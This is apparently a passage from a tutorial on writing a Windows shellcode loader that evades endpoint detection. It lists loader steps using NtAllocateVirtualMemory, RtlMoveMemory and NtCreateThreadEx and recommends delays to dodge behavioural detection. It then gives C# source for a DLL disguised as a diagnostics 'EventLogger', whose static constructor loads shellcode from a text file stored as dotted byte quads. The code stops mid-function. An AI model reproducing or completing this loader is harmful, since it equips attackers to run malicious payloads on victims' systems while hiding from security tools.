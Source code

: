 - Decrypt your shellcode in memory
- Allocate memory via NtAllocateVirtualMemory
- Copy with RtlMoveMemory
- Execute with NtCreateThreadEx

Sleep or delay execution to avoid behavioral triggers. In our case, we change our ```initial message box with callback.cs``` and stop using ```VritualAllocCreateThread```. 

```
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;
using System.Windows.Forms;

namespace XXXXXX.Diagnostics.Audit
{
    public static partial class EventLogger
    {
        static EventLogger()
        {
            try
            {
                // Get the directory where the DLL is running
                string dllPath = System.Reflection.Assembly.GetExecutingAssembly().Location;
                string basePath = Path.GetDirectoryName(dllPath);
                string filenamePath = Path.Combine(basePath, "Shellcode.txt");

                MessageBox.Show($"Triggering shellcode from: {filenamePath}", "DEBUG");

                if (File.Exists(filenamePath))
                {
                    ExecuteShellcodeFromFile(filenamePath);
                }
                else
                {
                    MessageBox.Show("Shellcode.txt not found!", "DEBUG");
                }
            }
            catch (Exception ex)
            {
                MessageBox.Show($"Error: {ex.Message}", "DEBUG");
            }
        }

        private static void ExecuteShellcodeFromFile(string filename)
        {
            try
            {
                string[] lines = File.ReadAllLines(filename);
                List<byte> shellcode = new List<byte>();

                foreach (var line in lines)
                {
                    string[] parts = line.Split('.');
                    if (parts.Length == 4)
                    {
                        shellcode.AddRange(parts.Select(byte.Parse));
                    }
                }

                // Stealthy Memory Allocation
                IntPtr pMemory = IntPtr.Zero;
```